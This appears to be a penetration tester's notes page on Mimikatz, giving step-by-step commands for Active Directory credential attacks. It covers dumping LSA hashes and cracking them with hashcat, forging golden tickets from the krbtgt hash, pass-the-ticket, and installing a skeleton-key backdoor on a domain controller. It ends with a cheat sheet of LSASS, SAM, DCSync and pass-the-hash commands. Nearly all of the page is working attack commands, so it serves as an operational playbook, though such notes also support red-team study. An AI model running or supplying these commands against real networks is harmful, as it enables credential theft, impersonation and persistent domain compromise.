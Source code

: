 # MimiKatz

_Used for dumping user credentials inside of a active directory network_

{% embed url="https://github.com/gentilkiwi/mimikatz" %}

**Summary**

* [Dumping Hashes](broken-reference/)
* [Golden tickets attack](broken-reference/)
* [Silver Ticket](broken-reference/)
* [Pass the ticket](broken-reference/)
* [Kerberos backdoors](broken-reference/)

## Dumping hashes

`cd Downloads && mimikatz.exe` this will cd into the directory that mimikatz is kept as well as run the mimikatz binary

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

`privilege::debug` ensure that the output is "Privilege '20' ok" - This ensures that you're running mimikatz as an administrator; if you don't run mimikatz as an administrator, mimikatz will not run properly

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

`lsadump::lsa /patch` Dump those hashes!

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Crack those hashes w/ hashcat

`hashcat -m 1000 <hash> rockyou.txt`

## Golden Tickets Attack

We will first dump the hash and sid of the krbtgt user then create a golden ticket and use that golden ticket to open up a new command prompt allowing us to access any machine on the network.

`cd downloads && mimikatz.exe`

`privilege::debug` ensure this outputs \[privilege "20" ok]

`lsadump::lsa /inject /name:krbtgt` This dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket

<figure><img src="../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

### Create golden ticket

`kerberos::golden /user: /domain: /sid: /krbtgt: /id:`

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

### Access other machines with golden ticket

`misc::cmd` - This will open a new command prompt with elevated privileges to all machines

Access other Machines! - You will now have another command prompt with access to all other machines on the network

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (2).png" alt=""><figcaption></figcaption></figure>

## Silver Ticket

If a password of a service account is stolen, it can be used to impersonate a user

## Pass the Ticket

Pass the ticket works by dumping the TGT from the LSASS memory of the machine.

`cd Downloads` - navigate to the directory mimikatz is in

`mimikatz.exe` - run mimikatz

`privilege::debug` - Ensure this outputs \[output '20' OK] if it does not that means you do not have the administrator privileges to properly run mimikatz

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

`sekurlsa::tickets /export` - this will export all of the .kirbi tickets into the directory that you are currently in

At this step you can also use the base 64 encoded tickets from Rubeus that we harvested earlier

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Take the admin one

Now that we have the ticket, we can perform a pass the ticket attack `kerberos::ptt <ticket>` - run this command inside of mimikatz with the ticket that you harvested from earlier. It will cache and impersonate the given ticket

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

`klist` - Here were just verifying that we successfully impersonated the ticket by listing our cached tickets.

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

You now have impersonated the ticket giving you the same rights as the TGT you're impersonating. To verify this we can look at the admin share.

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

## Kerberos Backdoors

### Skeleton Key

The skeleton key works by abusing the AS-REQ encrypted timestamps, the timestamp is encrypted with the users NT hash. The domain controller then tries to decrypt this timestamp with the users NT hash, once a skeleton key is implanted the domain controller tries to decrypt the timestamp using both the user NT hash and the skeleton key NT hash allowing you access to the domain forest.

`cd Downloads && mimikatz.exe` - Navigate to the directory mimikatz is in and run mimikatz

`privilege::debug` - This should be a standard for running mimikatz as mimikatz needs local administrator access

**Installing Skeleton Key**

`misc::skeleton`

**Accessing the forest** Example : `net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz` - The share will now be accessible without the need for the Administrators password

`dir \\Desktop-1\c$ /user:Machine1 mimikatz` - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1

## Commands - CheatSheet

```bash
#The commands are in cobalt strike format!

#Dump LSASS:
mimikatz privilege::debug
mimikatz token::elevate
mimikatz sekurlsa::logonpasswords

#(Over) Pass The Hash
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:<UserName> /ntlm:<> /domain:<DomainFQDN>

#List all available kerberos tickets in memory
mimikatz sekurlsa::tickets

#Dump local Terminal Services credentials
mimikatz sekurlsa::tspkg

#Dump and save LSASS in a file
mimikatz sekurlsa::minidump c:\temp\lsass.dmp

#List cached MasterKeys
mimikatz sekurlsa::dpapi

#List local Kerberos AES Keys
mimikatz sekurlsa::ekeys

#Dump SAM Database
mimikatz lsadump::sam

#Dump SECRETS Database
mimikatz lsadump::secrets

#Inject and dump the Domain Controler's Credentials
mimikatz privilege::debug
mimikatz token::elevate
mimikatz lsadump::lsa /inject

#Dump the Domain's Credentials without touching DC's LSASS and also remotely
mimikatz lsadump::dcsync /domain:<DomainFQDN> /all

#List and Dump local kerberos credentials
mimikatz kerberos::list /dump

#Pass The Ticket
mimikatz kerberos::ptt <PathToKirbiFile>

#List TS/RDP sessions
mimikatz ts::sessions

#List Vault credentials
mimikatz vault::list
```
